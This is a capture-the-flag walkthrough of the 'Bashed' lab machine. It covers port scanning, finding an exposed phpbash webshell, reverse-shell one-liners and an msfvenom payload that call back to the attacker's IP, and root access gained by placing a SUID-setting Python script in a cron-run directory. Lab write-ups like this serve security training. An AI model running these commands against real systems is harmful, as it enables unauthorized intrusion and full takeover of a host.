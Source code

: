 ```yaml
---
title: Bashed
published: true
layout: post
---
```


<br />

---------------
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted, the privilege escalation is based on deductions about timestamps.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/n7F_j56_pis?si=6Piixew4KatDnvxU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.68 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Bashed/1.png)
<br />
<br />
<br />

There is **1 open port**:
+ **80/tcp**

<br />
Let's check which **service** is running in this port:

```bash
sudo nmap -sS 10.10.10.68 -p 80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![](/assets/Bashed/2.png)
<br />
<br />
<br />

We can see that the service corresponds to:
+ **80/tcp Apache 8.2p1**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.68 -p 80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![](/assets/Bashed/3.png)
<br />
<br />
<br />

We can see a few **folders**, but nothing really interesting.

<br />

------

<br />
### Foothold

This machine runs a **[GitHub project](https://github.com/Arrexel/phpbash)** which works as a **webshell**, the main difficulty of the foothold was **finding were the webshell is located** and **evading security measures** for reverse shells.

<br />

When entering the website, this is the first thing we can see:

![](/assets/Bashed/4.png)
<br />
<br />
<br />

A quick search in google revealed the project used in this website:

![](/assets/Bashed/5.png)
<br />
<br />
<br />

This project comprehends a semi-interactive webshell, which we can use to gain access to the machine. However, we first need to find where is this webshell located, we can use gobuster for this:

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,bak,php.bak,html -o gobuster_dir_and_file_enum_80.txt -t 25 -r
```

![](/assets/Bashed/6.png)
<br />
<br />
<br />

After checking in each folder, finally I found the webshell in ***/dev/phpbash.php***:

![](/assets/Bashed/7.png)
<br />
<br />
<br />

I tried to gain a reverse shell with commands like `bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1'` or `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4444 >/tmp/f`, so I tried to **create a malicious file** and send it to the target machine:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=4444 --platform linux -f elf -o revshell.elf
sudo python3 -m http.server 80
```
<br />

Now, from the webshell, we can download it, however, we have to **download it from */tmp***, as we have no write permissions:

```bash
cd $(mktemp -d)
wget http://10.10.16.9/revshell.elf
```

![](/assets/Bashed/8.png)
<br />
<br />
<br />

Now we just have to **setup a listener in our machine and execute the file**, but first we have to give the file **execution privileges**:

```bash
rlwrap nc -nlvp 4444
```

```bash
chmod 777 revshell.elf
./revshell.elf
```

![](/assets/Bashed/9.png)
<br />
<br />
<br />

And just like this we got the foothold on the machine:

![](/assets/Bashed/10.png)
<br />
<br />
<br />

We can **grab the flag**, located in the directory of the **user *arrexel***:

![](/assets/Bashed/11.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

For this privilege escalation, we first have to **pivot to another user and then to root**.

<br />

Enumerating www-data privileges, I discovered that it can **run any command without password as the user *scriptmanager***:

```bash
sudo -l
```

![](/assets/Bashed/12.png)
<br />
<br />
<br />

With this information we can pivot right away to this user:

```bash
sudo -u scriptmanager bash -i
```

![](/assets/Bashed/13.png)
<br />
<br />
<br />

Enumerating scriptmanager's files, I discovered a directory named /scripts:
```bash
find / -user $(whoami) -ls 2>/dev/null | grep -v -e "/proc/*" -e "/sys/*" -e "/run/*"
```

![](/assets/Bashed/14.png)
<br />
<br />
<br />

In this directory we can see **two files**, one owned by root and the other by scriptmanager, the **file owned by scriptmanager writes its contents to the file owned by root**, however it is **not specified in any place that it changes the ownership**, which means that **root is executing this script**.

![](/assets/Bashed/15.png)
<br />
<br />
<br />

We could confirm this by running the [PsPy](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) tool, which indicates that a **CRON job** is running, which executes **every file ending in with a *.py* extension that is located in the */scripts* directory**:

![](/assets/Bashed/16.png)
<br />
<br />
<br />

Knowing this, we just have to **create a python file that set the SUID bit to the bash binary**:

```bash
echo "import os; os.system('chmod u+s /bin/bash')" > privesc.py
```

<br />

We can confirm that the script have been executed and escalate privileges:

```bash
bash -p
```

![](/assets/Bashed/17.png)
<br />
<br />
<br />

Finally, we can get our well-deserved **root flag**:

![](/assets/Bashed/18.png)
<br />
<br />
<br />
